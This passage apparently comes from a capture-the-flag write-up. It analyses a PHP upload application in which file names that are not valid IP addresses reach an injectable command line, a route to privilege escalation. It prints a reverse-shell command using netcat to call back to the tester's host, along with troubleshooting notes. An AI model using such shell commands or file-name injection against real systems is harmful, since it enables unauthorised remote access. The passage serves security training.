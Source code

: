 

    root@kali# ls -a
    .  ..  index.php  lib.php  photos.php  .test  upload.php





    php > $files = preg_grep('/^([^.])/', scandir('.')); print_r($files);
    Array
    (
        [5] => index.php
        [6] => lib.php
        [7] => photos.php
        [8] => upload.php
    )



Now there's a `foreach` over `$files` where the number is stored as
`$key` and the filename as `$value`.

`$value` is passed to `getnameCheck()`, and the resulting `$name` and
`$value` are passed to `check_ip()`:



    list ($name,$ext) = getnameCheck($value);
    $check = check_ip($name,$value);



If `$check[0]` is false, the code will reach the target line.

In `lib.php`, `check_ip` just runs `$name` through `filter_var`, which
is using
[FILTER_VALIDATE_IP](https://www.w3schools.com/php/filter_validate_ip.asp)
to check for valid IP addresses. As `getnameCheck()` is exactly the same
as `getnameUpload()` above, `$name` will be anything before the first
`.`.

This means any file I write in the `uploads` directory that isn't named
a valid IP will be passed to the part I can inject into.

### Shell Issues

Shells on this box we kind of annoying. This is a good case of
remembering to always try to run a shell yourself before trying to get
another user's process to run it. Once I was sure I had a shell that
connected back when I ran it, I could use that same command for the
privesc.

For example, I wanted to have guly run `nc -e sh 10.10.14.7 443`. This
should work, as `sh` is in my path. But it fails:



    bash-4.2$ nc -e sh 10.10.14.7 443                                           
    exec: No such file or directory


